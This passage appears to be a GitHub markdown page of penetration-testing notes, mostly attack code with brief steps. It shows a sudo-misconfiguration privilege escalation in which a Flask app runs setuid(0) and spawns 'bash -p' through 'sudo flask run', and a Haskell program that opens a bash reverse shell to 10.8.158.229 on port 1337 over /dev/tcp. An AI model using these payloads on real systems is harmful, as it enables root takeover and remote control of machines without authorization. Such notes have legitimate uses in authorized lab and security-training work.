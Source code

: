  ----------------------------
 
 ### REFERNCES:

 - [Roquenight](https://github.com/RoqueNight/LFI---RCE-Cheat-Sheet)
   
---------------------------------

### Abusing suid flask

- Sudoers rule

![image](https://github.com/user-attachments/assets/5402e95f-60ca-4b2d-a2b3-a5d200399287)
 
- Poc code
  
            import os
            from flask import Flask,render_template_string
            
            app = Flask(__name__)
            os.setuid(0)
            os.setgid(0)
            os.system("bash -p")
            
            @app.route("/")
            def index():
                return render_template_string("Life tuff ooo!!!!")
            
            if __name__ == "__main__":
               app.run(port=8080,debug=True)

- Set the environmetal variables

      export FLASK_APP=app.py
      export FLASK_ENV=development

- Run
       sudo -u root /usr/bin/flask run

- Root

![image](https://github.com/user-attachments/assets/34e3c7a7-03b6-4b1b-b857-bdb93143c5e9)

---------------------------

### Executing Shell Commands with Haskell code

- Save as run.hs

      import System.Process
      
      main = callCommand "bash -c 'bash -i 5<> /dev/tcp/10.8.158.229/1337 0<&5 1>&5 2>&5'"

---------------------------

### REFERENCES:
